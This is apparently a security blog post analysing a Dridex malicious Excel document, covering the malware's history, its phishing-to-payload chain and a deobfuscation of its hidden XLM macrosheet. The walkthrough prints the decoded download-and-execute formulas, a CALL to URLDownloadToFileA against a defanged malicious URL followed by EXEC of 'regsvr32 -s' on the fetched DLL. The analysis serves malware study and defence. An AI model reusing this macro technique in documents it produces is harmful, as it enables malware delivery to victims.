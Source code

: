 ```yaml
---
layout: post
title: Dridex crimeware/malware
---
```


| Malware | APT |
|-------|--------|
| [Dridex](https://malpedia.caad.fkie.fraunhofer.de/details/win.dridex) | [Indrik Spider](https://malpedia.caad.fkie.fraunhofer.de/actor/indrik_spider) , Evil Corp|

## Dridex
An evasive, information-stealing malware variant; its goal is to acquire as many credentials as possible and return them via an encrypted tunnel to a Command-and-Control (C&C) server. These C&C servers are numerous and scattered all over the Internet, if the malware cannot reach one server it will try another. For this reason, network-based measures such as blocking the C&C IPs is effective only in the short-term. -- OxCERT


### History 
[Treasury Sanctions Evil Corp, the Russia-Based Cybercriminal Group Behind Dridex Malware](https://home.treasury.gov/news/press-releases/sm845)
```As of 2015, Yakubets maintained control of the Dridex malware```

 * First dridex apeard on the chart was back in 2014 June
 * moving on it started creating its army of botnets(mid 2014- mid 2015)
 * botnet was taken down by USA in late 2015
 * it resurfaced again in 2016 and assembelled more that 30 botnets.
 * By the mid of july 2017 dridex started ransomware infection, likes of [Bitpaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.friedex), [DoppelPaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.doppelpaymer), [WastedLocker](https://malpedia.caad.fkie.fraunhofer.de/details/win.wastedlocker)

funfact: botnets are named after there botnet IDs like 10111, 40200, 40300 etc


### Mechanism

Malspam(email)--> Maldoc(excel/word)+macro --> VBA macro --> powershell script --> payload download --> payload execution

Mostly the Maldoc are excel documents and the urls are obfuscated as cell contents. then VBA function de-obfuscate the sheet and downlaod the payload either using powershell or Windows API, moslty powershell.

## Sample used : f06910daadc7c66c8e9064d0719ed6727d69c1f04ab13566cadbb6e7a9f52a7e maldoc: thanks to abuse.ch

## Initial Access :
###    Phishing:
        Spearphish Attachment : compressed macros docs, Pdfs, Js, Jar, etc
        Spearphish Link : link to above compressed files (Mostly Compromised and public Cloud storage are used)


## Execution:
###    Command and Scripting Interpreter:
        Macro
        Powershell
        
### Use olevba3 to extract the macrosheet or use openpyxl to get the cell contents.

This sample is using XML macrosheets which is still(for 30 years if i am not wrong) there to support backward compatibility.Now VBA macros are used instead of macrosheets.
Execution is from left to right AND top to bottom cell in xls macrosheet
All sheets are hidden, 

Sheets are heaviliy ofuscated.

Code to get cell contents:

`import openpyxl
book = openpyxl.load_workbook('binary.xlsm')
for w in book.worksheets:
   s = book.get_sheet_by_name(w.title)
   for r in s.rows:
       for c in r:
         if c.value != None:
           print c,c.value`
 


FORMULA.FILL : to put data or formula to the cell.
        `FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)`
Workbook.hide : it will hide the sheets 
        `WORKBOOK.HIDE("Doc1",1)`
SET.VALUE: to set value of cell
        `SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43)`
CALL : In Macrosheet you can call functions from the cell :)
Even you can call the DLL fucntion using CALL function. (urlmon.urldownloadtofile())
        `CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)`
EXEC : it will execute the code provided as argument.
        `EXEC(AM34&AO15)`
& : it will just concat the strings.


Demo sequence:

        decode the call urls
        decode the call function
        run the downlaoded dll.

`<Cell u'Doc1'.AO20> =EXEC(**AM34**&**AO15**) = **regsvr32 -s ..\ghnrope**
        AM34 = SET.VALUE(AM34,AO73)
            AO73 = <Cell u'Doc1'.AO73> =**"regsvr32 -s "**    
        <Cell u'Doc1'.AO15> =**"..\ghnrope"**
CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)
        AM19 = SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43) = URLMo
                <Cell u'Doc1'.AV39> =CHAR(85)
                <Cell u'Doc1'.AV40> R
                <Cell u'Doc1'.AV41> L
                <Cell u'Doc1'.AV42> M
                <Cell u'Doc1'.AV43> o
       AM20=SET.VALUE(AM20,'Doc2'!AQ74&'Doc2'!AQ75&'Doc2'!AQ76&'Doc2'!AQ77&'Doc2'!AQ78&'Doc2'!AQ79&'Doc2'!AQ80&'Doc2'!AQ81&'Doc2'!AQ82&'Doc2'!AQ83&'Doc2'!AQ84&'Doc2'!AQ85&'Doc2'!AQ86&'Doc2'!AQ87&'Doc2'!AQ88&'Doc2'!AQ89&'Doc2'!AQ90)
       Similarl as above : URLDownloadToFile
      AM30 =  SET.VALUE(AM30,'Doc2'!AR74&'Doc2'!AR75&'Doc2'!AR76&'Doc2'!AR77&'Doc2'!AR78&'Doc2'!AR79)
        AM30= JJCCBB
      AR84 = 0
      AM23 =FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)
        http[:]//runolfsson-jayde07s.ru.com/ind[.]html
        AO15 = ..\ghnrope
   
   CALL("URLMo"&"n","URLDownloadToFile"&"A",JJCCBB,0,"http[:]//runolfsson-jayde07s.ru.com/ind[.]html","..\ghnrope"&".dll")`
   
more reading https://superuser.com/questions/1253212/what-is-macro-worksheet-in-excel 


